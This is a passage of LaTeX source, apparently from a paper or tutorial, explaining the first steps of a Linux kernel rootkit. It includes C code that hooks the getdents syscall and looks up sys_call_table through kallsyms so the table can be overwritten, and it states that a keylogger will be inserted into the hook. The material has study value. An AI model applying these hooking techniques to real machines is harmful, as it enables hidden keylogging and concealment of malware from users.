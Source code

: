 \documentclass[conference]{IEEEtran}
\begin{document}
	Knowing what its structure is, we can now finally start with the function hook. This is done by saving the original getdents function, and redefining our own version of the getdents function. Both declarations use the \emph{asmlinkage} tag, as show below.
	
	\begin{lstlisting}
asmlinkage int (*original_getdents) (unsigned int fd, struct linux_dirent64 *dirp, unsigned int count);

asmlinkage int sys_getdents_hook(unsigned int fd, struct linux_dirent64 *dirp, unsigned int count) {
int rtn = original_getdents(fd, dirp, count);
return rtn;   
}
	\end{lstlisting}
	
	The first line saves the original getdents functionality to a variable name \emph{original\_getdents}. The second line defines our own version of the getdents named as \emph{sys\_getdents\_hook}. For now, all it does is save the return value of the original getdents function, then returns it, essentially still replicating the original functionality. This is where we will insert the keylogger module for the following steps. \\
	
	Next, we would like to locate the address of the system's sys\_call\_table. This is done with the following lines:
	\begin{lstlisting}
#include <linux/kallsyms.h>

void **syscall_table;
syscall_table = (void *)
	kallsyms_lookup_name("sys_call_table");
	\end{lstlisting} 
	
	The pointer pointing to this addressed is saved under the variable \emph{syscall\_table}. We will be using this in overwriting the existing system call table.
	
\end{document}
